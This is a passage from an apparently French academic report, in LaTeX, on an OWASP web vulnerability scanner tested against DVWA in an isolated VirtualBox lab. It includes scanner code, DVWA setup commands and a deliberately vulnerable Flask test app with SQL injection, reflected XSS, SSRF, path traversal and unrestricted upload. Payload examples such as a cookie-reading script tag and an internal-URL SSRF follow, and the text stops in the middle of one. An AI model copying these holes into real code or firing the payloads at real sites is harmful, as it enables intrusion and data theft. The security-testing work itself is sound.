UC7 & Évaluer les scores CVSS & Système & Vulnérabilités raw & Vulnérabilités enrichies \\
\rowA UC8 & Générer le rapport HTML & Système & Vulnérabilités scorées & Fichier HTML autonome \\
\bottomrule
\end{tabular}
\end{table}

\section{Les 12 Détecteurs}

\begin{table}[h!]
\centering
\caption{Les 12 détecteurs et leurs caractéristiques}
\begin{tabular}{p{4.5cm}p{1.2cm}p{1.5cm}p{4.5cm}p{1cm}}
\toprule
\hdr{Classe} & \hdr{OWASP} & \hdr{Type} & \hdr{Technique principale} & \hdr{CVSS} \\
\midrule
SQLiDetector          & A03 & Actif   & Erreur SQL + time-delay + booléen      & 9.8 \\
\rowA XSSDetector     & A03 & Actif   & Injection \code{<script>} + réflexion  & 6.1 \\
SSRFDetector          & A10 & Actif   & URLs internes + métadonnées cloud      & 8.5 \\
\rowA IDORDetector    & A01 & Actif   & Incrémentation/décrémentation d'IDs    & 6.5 \\
PathTraversalDetector & A01 & Actif   & ../etc/passwd + encodages alternatifs  & 7.5 \\
\rowA XXEDetector     & A05 & Actif   & Entités XML file:// et http://         & 8.2 \\
FileUploadDetector    & A04 & Actif   & Upload .php + vérif. d'accessibilité   & 8.8 \\
\rowA AuthFailures    & A07 & Actif   & Credentials par défaut + formulaire    & 9.8 \\
CryptoFailures        & A02 & Passif  & Formulaires password en HTTP           & 7.5 \\
\rowA SecurityMisconfig & A05 & Passif & Headers HTTP manquants, fichiers       & 5.3 \\
VulnerableComponents  & A06 & Passif  & Bannières version serveur/framework    & 5.3 \\
\rowA IntegrityDetector & A08 & Passif & Attribut SRI manquant sur ressources   & 4.8 \\
\bottomrule
\end{tabular}
\end{table}

\section{Diagramme de Classes}

Le diagramme de classes présente la structure statique du système avec les sept classes
principales, leurs attributs, méthodes et relations. Les relations de composition (losange
plein) indiquent que Scanner possède et crée ses dépendances ; les relations d'association
simple indiquent une utilisation sans possession.

\begin{landscape}
\begin{figure}[p]
\centering

\includegraphics[width=\linewidth,height=0.85\textheight,keepaspectratio]{diagram3_classes.png}
\caption{Diagramme de classes complet du scanner}
\end{figure}
\end{landscape}

\section{Diagramme de Séquence}

Le diagramme de séquence illustre les interactions entre les objets lors d'un cycle de scan
complet, depuis la commande CLI jusqu'à la génération du rapport HTML final.

\begin{landscape}
\begin{figure}[p]
\centering

\includegraphics[width=\linewidth,height=0.85\textheight,keepaspectratio]{diagram4_sequence.png}
\caption{Diagramme de séquence --- cycle de scan complet}
\end{figure}
\end{landscape}

\section{Description Détaillée des Modules}

\subsection{Module Crawler}

Le Crawler est le premier maillon du pipeline. Son rôle est de découvrir exhaustivement tous
les points d'entrée testables de l'application cible. Il utilise un algorithme BFS (file FIFO)
pour explorer l'application de manière ordonnée et contrôlée.

Le Crawler extrait les types d'endpoints suivants :
\begin{itemize}
  \item URLs avec paramètres GET : \code{/search?q=test}, \code{/profile?id=1}
  \item Formulaires HTML (GET et POST) : champs text, password, hidden, select, textarea
  \item Formulaires multipart (\code{enctype=multipart/form-data}) : upload de fichiers
  \item Liens internes filtrés : exclusion des liens logout, \code{javascript:}, \code{mailto:}
\end{itemize}

La déduplication des endpoints se fait via une signature unique :
\code{METHOD:URL?sorted\_params}.

\subsection{Module BaseDetector (Classe Abstraite)}

BaseDetector implémente le pattern \textbf{Template Method} : la méthode \code{scan\_all()}
orchestre la boucle sur tous les endpoints et appelle la méthode abstraite \code{scan()}
implémentée par chaque sous-classe.

Services fournis par BaseDetector à toutes les sous-classes :
\begin{itemize}
  \item \code{\_send(url, method, params, data, headers)} : envoi HTTP avec gestion des erreurs
  \item \code{\_iter\_injection\_points(endpoint)} : itère sur tous les paramètres injectables
  \item Chargement automatique des payloads depuis \code{payloads/<name>.txt} au démarrage
  \item \code{scan\_all(endpoints)} : boucle principale + déduplication par signature
\end{itemize}

\subsection{Module CVSSEvaluator}

Le CVSSEvaluator enrichit chaque objet Vulnerability avec un score CVSS v3.1, un vecteur CVSS
officiel (ex: \code{CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H}), un niveau de sévérité
(Critique/Élevé/Moyen/Faible) et une recommandation de remédiation. Les profils CVSS sont
définis statiquement dans un dictionnaire \code{CVSS\_PROFILES}.

\subsection{Module HTMLReporter}

Le HTMLReporter génère un fichier HTML5 autonome (CSS intégré via balises \code{<style>},
aucune dépendance CDN externe) contenant : un en-tête avec les métadonnées du scan (cible,
date, durée, pages crawlées), un tableau de bord avec des cartes de comptage par sévérité,
et une liste dépliable (\code{<details>/<summary>}) de chaque vulnérabilité avec URL, méthode,
paramètre, payload, preuve, vecteur CVSS et recommandation.

\section{Structure du Projet}

\begin{verbatim}
imple/
|-- main.py                  # Point d'entree CLI (argparse)
|
|-- scanner/                 # Orchestrateur principal
|   |-- __init__.py          # Export Vulnerability + lazy import
|   |-- core.py              # Classe Scanner + ScanOptions
|   |-- vulnerability.py     # Dataclass Vulnerability
|   |-- authenticator.py     # login_dvwa() + login_form_based()
|
|-- crawler/
|   |-- __init__.py
|   |-- crawler.py           # Classe Crawler BFS + Endpoint
|
|-- detectors/
|   |-- __init__.py          # ALL_DETECTORS dict + exports
|   |-- base.py              # BaseDetector (Template Method)
|   |-- sqli.py              # SQLiDetector  - A03
|   |-- xss.py               # XSSDetector   - A03
|   |-- ssrf.py              # SSRFDetector  - A10
|   |-- idor.py              # IDORDetector  - A01
|   |-- path_traversal.py    # PathTraversalDetector - A01
|   |-- xxe.py               # XXEDetector   - A05
|   |-- file_upload.py       # FileUploadDetector - A04
|   |-- auth.py              # AuthFailuresDetector - A07
|   |-- crypto.py            # CryptographicFailuresDetector
|   |-- security_misconfig.py# SecurityMisconfigDetector
|   |-- components.py        # VulnerableComponentsDetector
|   |-- integrity.py         # IntegrityDetector - A08
|
|-- evaluator/
|   |-- __init__.py
|   |-- cvss.py              # CVSSEvaluator + CVSS_PROFILES
|
|-- reporter/
|   |-- __init__.py
|   |-- html_reporter.py     # HTMLReporter.save()
|
|-- payloads/                # Wordlists de payloads
|   |-- sqli.txt             # 50+ payloads SQLi
|   |-- xss.txt              # 40+ payloads XSS
|   |-- ssrf.txt             # 30+ URLs internes
|   |-- path_traversal.txt   # 25+ sequences ../
|   |-- xxe.txt              # 15+ payloads XXE
|
|-- tests/
    |-- conftest.py          # Fixture Flask vulnerable
    |-- test_detectors.py    # Tests detecteurs actifs
    |-- test_cvss.py         # Tests scoring CVSS
    |-- test_crawler.py      # Tests BFS et extraction
    |-- test_reporter.py     # Tests generation HTML
    |-- test_file_upload.py  # Tests detecteur upload
    |-- test_passive_detectors.py
    |-- run_vuln_app.py      # Lance l'app Flask sur :5001
\end{verbatim}
\captionof{figure}{Arborescence complète du projet}

\section{Technologies et Stack Technique}

\begin{table}[h!]
\centering
\caption{Stack technologique complète du projet}
\begin{tabular}{p{3cm}p{2.8cm}p{1.5cm}p{4.5cm}}
\toprule
\hdr{Composant} & \hdr{Technologie} & \hdr{Version} & \hdr{Rôle} \\
\midrule
Langage principal & Python            & 3.10+  & Développement de l'outil complet \\
\rowA Requêtes HTTP & requests        & 2.31+  & Envoi/réception, gestion sessions \\
Parsing HTML      & BeautifulSoup4    & 4.12+  & Extraction liens, formulaires \\
\rowA CLI         & argparse (stdlib) & —      & Interface ligne de commande \\
Tests             & pytest            & 7.4+   & Tests unitaires et d'intégration \\
\rowA App de test & Flask             & 3.0+   & Application vulnérable pour tests \\
Rapport           & HTML5/CSS3        & —      & Génération rapport final autonome \\
\rowA Virtualisation & VirtualBox     & 7.0    & Environnement de test isolé \\
OS cible          & Ubuntu            & 22.04  & OS des machines virtuelles \\
\bottomrule
\end{tabular}
\end{table}

\section{Environnement de Déploiement — Topologie Réseau}

\begin{lstlisting}[caption={Topologie de l'environnement de test virtualisé}]
+------------------------------------------------------------------+
|            Machine Hote -- Windows 11 Pro                        |
|                                                                  |
|  +--------------------+          +---------------------------+   |
|  |  VM 1 -- Scanner   |          |  VM 2 -- Cible (Target)   |   |
|  |--------------------|          |---------------------------|   |
|  |  Ubuntu 22.04 LTS  |  HTTP/S  |  Ubuntu 22.04 LTS         |   |
|  |  Python 3.11       |<-------->|  Apache 2.4 + PHP 8.1     |   |
|  |  main.py + pytest  |192.168.  |  MySQL 8.0                |   |
|  |                    |  56.0/24 |  DVWA (port 80)           |   |
|  |  IP: 192.168.56.101|          |  IP: 192.168.56.102       |   |
|  +--------------------+          +---------------------------+   |
|                                                                  |
|  Reseau: VirtualBox Host-Only -- segment 192.168.56.0/24         |
+------------------------------------------------------------------+
\end{lstlisting}

% ────────────────────────────────────────────────────────────
\section{Conclusion}
% ────────────────────────────────────────────────────────────

Ce chapitre a présenté la conception complète de notre scanner de vulnérabilités. L'architecture
en pipeline à cinq étapes garantit une séparation claire des responsabilités. Les douze
détecteurs couvrent neuf catégories OWASP, le CVSSEvaluator assure un scoring automatique,
et le reporter génère un rapport HTML autonome. Les diagrammes UML — cas d'utilisation,
classes, séquences — formalisent les interactions du système. Le chapitre suivant détaille
la réalisation concrète et les résultats de validation.

% ============================================================
\chapter{Réalisation et Implémentation}
% ============================================================

Ce chapitre détaille la mise en œuvre concrète du scanner. Nous décrivons d'abord
l'environnement de test virtualisé, puis l'implémentation des modules Python principaux.
Nous présentons ensuite la suite de tests unitaires, les études de cas sur huit vulnérabilités
réelles, et les résultats obtenus sur les applications cibles DVWA et Flask.

\section{Environnement de Travail (Machines Virtuelles)}

\begin{table}[h!]
\centering
\caption{Configuration détaillée des machines virtuelles}
\begin{tabular}{p{4cm}p{4.5cm}p{4cm}}
\toprule
\hdr{Paramètre} & \hdr{VM 1 — Scanner} & \hdr{VM 2 — Cible} \\
\midrule
Système d'exploitation & Ubuntu 22.04 LTS (64-bit) & Ubuntu 22.04 LTS (64-bit) \\
\rowA RAM allouée       & 2~048~Mo & 2~048~Mo \\
Processeurs virtuels    & 2 vCPU   & 2 vCPU \\
\rowA Stockage          & 20~Go (VDI dynamique) & 25~Go (VDI dynamique) \\
Réseau adaptateur 2     & Host-Only vboxnet0 & Host-Only vboxnet0 \\
\rowA Adresse IP        & 192.168.56.101 & 192.168.56.102 \\
Logiciels principaux    & Python 3.11, pip, venv & Apache 2.4, PHP 8.1, DVWA \\
\bottomrule
\end{tabular}
\end{table}

\subsection{Configuration Réseau}

\begin{lstlisting}[style=bash, caption={Configuration réseau Ubuntu (VM 1 — Scanner)}]
# Sur VM 1 (Scanner) -- Configuration interface Host-Only
sudo nano /etc/netplan/01-netcfg.yaml

network:
  version: 2
  ethernets:
    enp0s3:           # Adaptateur NAT
      dhcp4: true
    enp0s8:           # Adaptateur Host-Only
      addresses: [192.168.56.101/24]

sudo netplan apply

# Verification
ip addr show enp0s8    # Doit afficher 192.168.56.101/24
ping 192.168.56.102    # Test connectivite vers VM Cible
\end{lstlisting}

\subsection{Installation de DVWA sur VM 2 (Cible)}

DVWA (Damn Vulnerable Web Application) version 1.10 a été installée sur la VM Cible.
C'est une application PHP/MySQL conçue pour les tests de sécurité, proposant des modules
vulnérables à plusieurs niveaux de difficulté (Low, Medium, High, Impossible).

\begin{lstlisting}[style=bash, caption={Installation complète de DVWA sur Ubuntu (VM 2)}]
# -- Installation LAMP (Linux Apache MySQL PHP) --
sudo apt update && sudo apt upgrade -y
sudo apt install -y apache2 php php-mysql php-gd php-xml \
    libapache2-mod-php mysql-server git

# -- Securisation MySQL --
sudo mysql_secure_installation

# -- Creation base de donnees DVWA --
sudo mysql -u root -p <<EOF
CREATE DATABASE dvwa CHARACTER SET utf8mb4 COLLATE utf8mb4_unicode_ci;
CREATE USER 'dvwa'@'localhost' IDENTIFIED BY 'p@ssw0rd!';
GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwa'@'localhost';
FLUSH PRIVILEGES;
EOF

# -- Telechargement et configuration DVWA --
cd /var/www/html
sudo git clone https://github.com/digininja/DVWA.git dvwa
sudo cp dvwa/config/config.inc.php.dist dvwa/config/config.inc.php

# Modifier config.inc.php :
# $_DVWA['db_user']     = 'dvwa';
# $_DVWA['db_password'] = 'p@ssw0rd!';
# $_DVWA['default_security_level'] = 'low';

# -- Permissions --
sudo chown -R www-data:www-data /var/www/html/dvwa
sudo chmod -R 755 /var/www/html/dvwa/hackable/uploads

# -- Activation PHP et redemarrage Apache --
sudo a2enmod rewrite
sudo systemctl restart apache2

# Acceder a http://192.168.56.102/dvwa/setup.php
# Cliquer sur "Create / Reset Database"
# Login : admin / password, Security Level : Low
\end{lstlisting}

\subsection{Installation du Scanner sur VM 1}

\begin{lstlisting}[style=bash, caption={Installation et premier test du scanner (VM 1)}]
# -- Clonage et environnement virtuel --
git clone <url-du-depot> scanner
cd scanner/imple
python3 -m venv .venv
source .venv/bin/activate      # Linux/macOS

# -- Dependances --
pip install --upgrade pip
pip install -r requirements.txt
# requirements.txt contient :
# requests>=2.31.0
# beautifulsoup4>=4.12.0
# lxml>=4.9.0
# flask>=3.0.0      (pour l'app de test uniquement)
# pytest>=7.4.0     (pour les tests)

# -- Verification --
python main.py --help
python -m pytest tests/ -v --tb=short

# -- Scan de test rapide --
python main.py --url http://192.168.56.102/dvwa \
               --login-url http://192.168.56.102/dvwa/login.php \
               --username admin --password password \
               --depth 2 --only sqli,xss \
               --output test_rapide.html -v
\end{lstlisting}

\section{Implémentation Détaillée des Modules}

\subsection{Orchestrateur Principal (\texttt{scanner/core.py})}

\begin{lstlisting}[language=python, caption={Méthode Scanner.run() — orchestration du pipeline}]
class Scanner:
    def run(self) -> list[Vulnerability]:
        start = time.perf_counter()
        # Phase 0 : Authentification (optionnelle)
        self._maybe_login()
        # Phase 1 : Crawling
        crawler = Crawler(base_url=self.url,
                          max_depth=self.options.depth,
                          session=self.session)
        endpoints = crawler.crawl()
        # Phase 2 : Detection (12 detecteurs en sequence)
        raw_vulns: list[Vulnerability] = []
        for name in (self.options.only or list(ALL_DETECTORS.keys())):
            cls = ALL_DETECTORS.get(name)
            detector = cls(session=self.session)
            raw_vulns.extend(detector.scan_all(endpoints))
        # Phase 3 : Deduplication
        deduped = self._deduplicate(raw_vulns)
        # Phase 4 : Evaluation CVSS
        self.vulnerabilities = CVSSEvaluator().evaluate_all(deduped)
        # Phase 5 : Rapport HTML
        self.duration = time.perf_counter() - start
        HTMLReporter(self.options.output).save(
            self.vulnerabilities, target_url=self.url,
            duration=self.duration, pages_scanned=self.pages_scanned)
        return self.vulnerabilities
\end{lstlisting}

\subsection{Détecteur SQLi (\texttt{detectors/sqli.py})}

\begin{lstlisting}[language=python, caption={Détecteur SQLi — error-based et time-based}]
SQL_ERROR_PATTERNS = [
    r"you have an error in your sql syntax",
    r"warning:\s+mysql", r"mysql_fetch_array\(\)",
    r"sqlstate\[", r"pg_query\(\):", r"ora-\d{5}",
    r"microsoft sql server", r"sqlite_error",
]
ERROR_REGEX = re.compile("|".join(SQL_ERROR_PATTERNS), re.IGNORECASE)

class SQLiDetector(BaseDetector):
    name = "SQL Injection"; owasp_id = "A03"
    TIME_THRESHOLD = 4.5

    def _test_error_based(self, endpoint, param, ...) -> bool:
        for payload in self.payloads:
            data = {**base, param: payload}
            resp = self._send(endpoint.url, method=method, data=data)
            if resp and (m := ERROR_REGEX.search(resp.text)):
                vulns.append(Vulnerability(
                    name=self.name, url=endpoint.url,
                    payload=payload, evidence=f"SQL: {m.group(0)}"))
                return True
        return False
\end{lstlisting}

\subsection{CVSSEvaluator (\texttt{evaluator/cvss.py})}

\begin{lstlisting}[language=python, caption={CVSSEvaluator avec profils CVSS}]
CVSS_PROFILES = {
    "SQL Injection": CVSSProfile(
        vector="CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H",
        score=9.8,
        recommendation="Requetes parametrees obligatoires..."),
    "Cross-Site Scripting": CVSSProfile(
        vector="CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N",
        score=6.1,
        recommendation="Encodage contextuel + CSP stricte..."),
    "SSRF": CVSSProfile(
        vector="CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:L/A:N",
        score=8.5,
        recommendation="Allowlist IPs + blocage RFC 1918..."),
}
\end{lstlisting}

\subsection{Crawler BFS (\texttt{crawler/crawler.py})}

Le Crawler utilise une file FIFO (\code{collections.deque}) pour explorer l'application en
largeur d'abord. Chaque URL visitée est canonisée avant d'être ajoutée à l'ensemble
\code{visited}, évitant les visites redondantes.

\begin{lstlisting}[language=python, caption={Algorithme BFS complet du Crawler}]
@dataclass
class Endpoint:
    url: str
    method: str = "GET"
    params: dict[str, str] = field(default_factory=dict)
    form_fields: dict[str, str] = field(default_factory=dict)
    file_fields: list[str] = field(default_factory=list)
    enctype: str = ""

    def signature(self) -> str:
        keys = ",".join(sorted(
            self.params.keys() | self.form_fields.keys()))
        return f"{self.method}:{self.url}?{keys}"

def crawl(self) -> list[Endpoint]:
    queue: deque[tuple[str, int]] = deque([(self.base_url, 0)])
    seen_signatures: set[str] = set()

    while queue and len(self.visited) < self.max_pages:
        url, depth = queue.popleft()
        canonical = _strip_query(url)
        if canonical in self.visited or depth > self.max_depth:
            continue
        self.visited.add(canonical)
        resp = self._fetch(url)
        if resp is None or "html" not in resp.headers.get(
                "Content-Type", ""):
            continue
        soup = BeautifulSoup(resp.text, "html.parser")

        # Extraction des parametres GET
        qs = parse_qs(urlparse(url).query, keep_blank_values=True)
        if qs:
            params = {k: v[0] for k, v in qs.items()}
            ep = Endpoint(url=canonical, method="GET", params=params)
            if ep.signature() not in seen_signatures:
                seen_signatures.add(ep.signature())
                self.endpoints.append(ep)

        # Extraction des formulaires
        for form in soup.find_all("form"):
            ep = self._parse_form(form, url)
            if ep and ep.signature() not in seen_signatures:
                seen_signatures.add(ep.signature())
                self.endpoints.append(ep)

        # Suivi des liens internes
        for a in soup.find_all("a", href=True):
            href = a["href"].strip()
            if any(href.startswith(p) for p in
                   ("javascript:", "mailto:", "tel:", "#")):
                continue
            if "logout" in href.lower():
                continue
            next_url = urljoin(url, href)
            if _same_domain(next_url, self.base_url):
                queue.append((next_url, depth + 1))

    return self.endpoints
\end{lstlisting}

\subsection{Authenticator (\texttt{scanner/authenticator.py})}

Le module Authenticator gère deux modes d'authentification : le mode DVWA (login spécialisé
avec gestion du token CSRF \code{user\_token}) et le mode générique (détection automatique
du formulaire de login et soumission des credentials).

\begin{lstlisting}[language=python, caption={Fonction login\_dvwa() — authentification DVWA}]
def login_dvwa(session, base_url, username="admin",
               password="password", security="low",
               timeout=10) -> bool:
    login_url = base_url.rstrip("/") + "/login.php"
    # 1) Recuperer le token CSRF
    r = session.get(login_url, timeout=timeout)
    soup = BeautifulSoup(r.text, "html.parser")
    token = ""
    if inp := soup.find("input", {"name": "user_token"}):
        token = inp.get("value", "")
    # 2) Soumettre le formulaire
    resp = session.post(login_url, data={
        "username": username, "password": password,
        "Login": "Login", "user_token": token
    }, timeout=timeout)
    success = ("logout" in resp.text.lower()
               or "welcome" in resp.text.lower())
    if success and security != "":
        # 3) Regler le niveau de securite DVWA
        sec_url = base_url.rstrip("/") + "/security.php"
        sr = session.get(sec_url, timeout=timeout)
        soup2 = BeautifulSoup(sr.text, "html.parser")
        t2 = soup2.find("input", {"name": "user_token"})
        token2 = t2.get("value", "") if t2 else ""
        session.post(sec_url, data={
            "seclev_submit": "Submit",
            "security": security,
            "user_token": token2}, timeout=timeout)
    return success
\end{lstlisting}

\section{Interface en Ligne de Commande (CLI)}

\begin{lstlisting}[style=bash, caption={Exemples d'utilisation du scanner}]
# 1. Scan complet de DVWA (auto-login)
python main.py --url http://192.168.56.102/dvwa --dvwa \
               --output rapport_dvwa.html

# 2. Scan cible SQLi + XSS uniquement
python main.py --url http://192.168.56.102/dvwa --dvwa \
               --only sqli,xss --depth 1 -v

# 3. Scan avec login generique
python main.py --url http://target.com/app \
               --login-url http://target.com/login \
               --username admin --password secret \
               --only sqli,xss,ssrf,auth --output rapport.html

# Résumé console :
# ================================================
#  Scan termine en 6.04s
#  Total vulnerabilites : 70
#    - Critique  : 2
#    - Eleve     : 6
#    - Moyen     : 62
#  Rapport HTML : rapport.html
# ================================================
\end{lstlisting}

\section{Suite de Tests Unitaires}

\begin{lstlisting}[style=bash, caption={Résultats complets de la suite pytest (42 tests)}]
$ pytest -v --tb=short
========================= test session starts ==========================
Platform: linux -- Python 3.11.6, pytest-7.4.3
Collected 42 items

tests/test_detectors.py::test_sqli_error_based_detected         PASSED
tests/test_detectors.py::test_sqli_time_based_detected          PASSED
tests/test_detectors.py::test_xss_reflected_detected            PASSED
tests/test_detectors.py::test_ssrf_internal_detected            PASSED
tests/test_detectors.py::test_path_traversal_detected           PASSED
tests/test_detectors.py::test_xxe_local_file_detected           PASSED
tests/test_detectors.py::test_idor_user_enumeration             PASSED
tests/test_cvss.py::test_sqli_score_is_9_8                      PASSED
tests/test_cvss.py::test_xss_score_is_6_1                       PASSED
tests/test_cvss.py::test_ssrf_score_is_8_5                      PASSED
tests/test_crawler.py::test_bfs_visits_all_pages                PASSED
tests/test_crawler.py::test_bfs_depth_limit_respected           PASSED
tests/test_passive_detectors.py::test_http_password_form        PASSED
tests/test_passive_detectors.py::test_missing_csp_header        PASSED
...
========================= 42 passed in 1.43s ===========================
\end{lstlisting}

\subsection{Application Flask Vulnérable (\texttt{conftest.py})}

La fixture \code{conftest.py} crée une application Flask intentionnellement vulnérable qui
est lancée en mémoire via un thread daemon. Cette approche rend les tests autonomes et
reproductibles.

\begin{lstlisting}[language=python, caption={Application Flask vulnérable — fixture de test}]
def create_vulnerable_app():
    app = Flask(__name__)

    @app.route("/search")                      # SQLi
    def search():
        q = request.args.get("q", "")
        try:
            conn = sqlite3.connect(":memory:")
            conn.execute(
                f"SELECT * FROM users WHERE name='{q}'")
        except sqlite3.OperationalError as e:
            return f"Error: {e}", 500
        return "OK"

    @app.route("/greet")                       # XSS reflechi
    def greet():
        name = request.args.get("name", "")
        return f"<h1>Hello {name}</h1>"        # PAS d'echappement

    @app.route("/fetch")                       # SSRF
    def fetch():
        url = request.args.get("url", "")
        resp = requests.get(url, timeout=5)
        return resp.text

    @app.route("/file")                        # Path Traversal
    def serve_file():
        page = request.args.get("page", "")
        with open(page, "r") as f:
            return f.read()

    @app.route("/upload", methods=["POST"])    # File Upload
    def upload():
        f = request.files.get("uploaded")
        f.save(os.path.join("uploads", f.filename))
        return "Uploaded"

    @app.route("/login", methods=["GET","POST"])  # Auth
    def login():
        if request.method == "POST":
            if (request.form.get("username") == "admin"
                    and request.form.get("password") == "admin"):
                return redirect("/dashboard")
        return '''<form method="POST">
            <input name="username">
            <input type="password" name="password">
            <button>Login</button></form>'''

    return app
\end{lstlisting}

\section{Scénarios de Test — Études de Cas}

\subsection{Étude de Cas 1 : SQL Injection — CVSS 9.8 CRITIQUE}

\begin{critbox}
  \textbf{Cible :} \code{http://127.0.0.1:5001/search?q=...} \quad Paramètre : \code{q}
\end{critbox}

\begin{lstlisting}[style=bash, caption={Résultat — SQL Injection}]
Payload    : '
Reponse    : HTTP 500 -- "near "'": syntax error (SQLite)"
URL        : http://127.0.0.1:5001/search?q='
Score CVSS : 9.8 -- Critique
Vecteur    : CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
Impact     : Acces complet a la base de donnees
\end{lstlisting}

\textbf{Remédiation :} Utiliser des prepared statements :
\code{cursor.execute('SELECT * FROM users WHERE name=?', (q,))}.

\subsection{Étude de Cas 2 : XSS Réfléchi — CVSS 6.1 MOYEN}

\begin{lstlisting}[style=bash, caption={Résultat — XSS Réfléchi}]
Payload  : <script>alert(document.cookie)</script>
Reponse  : <h1>Hello <script>alert(document.cookie)</script></h1>
Score    : 6.1 -- Moyen
Vecteur  : CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
\end{lstlisting}

\textbf{Remédiation :} Utiliser \code{html.escape()} en Python, implémenter une CSP stricte.

\subsection{Étude de Cas 3 : SSRF — CVSS 8.5 ÉLEVÉ}

\begin{lstlisting}[style=bash, caption={Résultat — SSRF}]
Payload 1 : http://127.0.0.1
